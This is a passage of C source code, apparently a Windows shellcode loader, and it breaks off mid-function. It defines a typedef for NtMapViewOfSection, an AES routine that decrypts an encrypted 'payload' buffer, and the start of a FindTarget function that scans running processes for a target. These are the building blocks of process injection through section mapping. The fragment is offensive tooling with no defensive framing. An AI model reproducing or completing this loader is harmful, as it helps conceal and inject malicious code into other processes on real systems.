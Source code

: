 // https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwmapviewofsection
// https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html
typedef NTSTATUS(NTAPI* NtMapViewOfSection_t)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect);

// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION_INHERIT.html
typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;


int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;

	if (!CryptAcquireContextW(&#x26;hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
		return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &#x26;hHash)) {
		return -1;
	}
	if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
		return -1;
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &#x26;hKey)) {
		return -1;
	}

	if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)payload, (DWORD*)&#x26;payload_len)) {
		return -1;
	}

	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);

	return 0;
}


int FindTarget(const wchar_t* procname) {

	HANDLE hProcSnap;
	PROCESSENTRY32 pe32;
	int pid = 0;
	wchar_t procnameLower[260];
	wchar_t exeNameLower[260];
